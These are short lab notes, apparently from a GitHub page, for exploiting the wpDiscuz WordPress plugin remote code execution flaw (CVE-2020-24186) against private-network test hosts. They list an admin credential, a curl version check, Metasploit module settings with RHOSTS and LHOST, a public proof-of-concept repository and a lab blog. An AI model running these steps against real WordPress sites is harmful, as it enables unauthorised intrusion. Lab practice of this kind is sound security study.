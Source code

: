 admin / 3HfEXeyksooMNp2LGI

curl http://172.25.0.3/wp-content/plugins/wpdiscuz/readme.txt | head -n 10

search CVE-2020-24186
use 0

set RHOSTS 172.25.0.3

set BLOGPATH /index.php/2025/01/20/fake-post-2/

set LHOST 172.25.0.4



echo "http://172.25.0.3/" > site.txt


http://localhost:8080/2025/01/20/fake-post-2/#comment-4




Opción A
curl http://192.168.1.175:8080/wp-content/plugins/wpdiscuz/readme.txt | head -n 10

http://localhost:8080/2025/01/20/fake2/

msfconsole 

search CVE-2020-24186
use 0


set RHOSTS 192.168.1.175
set RPORT 8080

set BLOGPATH /2025/01/20/fake2/

set LHOST 192.168.1.175


Opción B

https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE/tree/main

Opción C
Burp Suite 
https://ine.com/blog/vulnerability-lab-wordpress-plugin-wpdiscuz-unauthenticated-rce
